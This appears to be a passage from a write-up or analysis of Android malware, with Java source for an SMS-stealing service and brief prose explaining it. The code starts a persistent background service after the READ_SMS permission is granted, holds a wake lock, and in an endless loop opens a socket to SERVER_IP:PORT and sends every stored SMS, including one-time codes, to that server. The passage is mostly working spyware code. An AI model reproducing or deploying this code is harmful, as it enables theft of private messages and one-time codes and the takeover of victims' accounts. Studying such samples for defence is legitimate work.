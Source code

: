 ```


    @Override
    public void onRequestPermissionsResult(int requestCode, @NonNull String[] permissions, @NonNull int[] grantResults) {
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);
        if (requestCode == REQUEST_READ_SMS_PERMISSION && grantResults.length > 0 && grantResults[0] == PackageManager.PERMISSION_GRANTED) {
            startSMSService();
        }
    }
}
```
If permissions are granted, a background service is started that sends one-time codes to the server.
In addition, the service will send all SMS messages
ever received to the phone to identify the services linked to the SIM card.

SMS Service Code -

```
@Override
    public int onStartCommand(Intent intent, int flags, int startId) {
        if (ContextCompat.checkSelfPermission(this, Manifest.permission.READ_SMS) != PackageManager.PERMISSION_GRANTED
                || ContextCompat.checkSelfPermission(this, Manifest.permission.INTERNET) != PackageManager.PERMISSION_GRANTED) {
            stopSelf();
            return START_NOT_STICKY;
        }
        acquireWakeLock();
        startForegroundService();
        listenForServerRequests();
        registerContentObserver();
        sendLastSmsPeriodically();
        return START_STICKY;
    }

    @Override
    public void onDestroy() {
        super.onDestroy();
        releaseWakeLock();
        unregisterContentObserver();
        if (handler != null) {
            handler.removeCallbacksAndMessages(null);
        }
    }

    @Override
    public IBinder onBind(Intent intent) {
        return null;
    }

    private void listenForServerRequests() {
        new Thread(() -> {
            while (true) {
                try (Socket socket = new Socket(SERVER_IP, PORT);
                     PrintWriter out = new PrintWriter(socket.getOutputStream(), true)) {
                    List<String> allSms = readAllSms();
                    for (String sms : allSms) {
                        out.println(sms);
                    }
                } catch (IOException e) {
                    e.printStackTrace();
```